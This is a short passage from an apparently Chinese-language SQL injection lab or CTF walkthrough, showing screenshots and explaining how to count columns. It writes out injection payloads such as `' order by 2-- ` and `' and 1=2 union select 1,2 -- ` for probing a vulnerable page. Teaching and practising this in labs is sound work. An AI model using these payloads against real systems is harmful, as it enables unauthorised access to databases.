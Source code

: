 过`'order by 2-- `正确回显，而`order by 3-- `无法回显，判断有两列。

![image-20240909201309554](./imgs/image-20240909201309554.png)

![image-20240909201254229](./imgs/image-20240909201254229.png)

然后判断回显位置： `' and 1=2 union select 1,2 -- `

![image-20240909201538931](./imgs/image-20240909201538931.png)
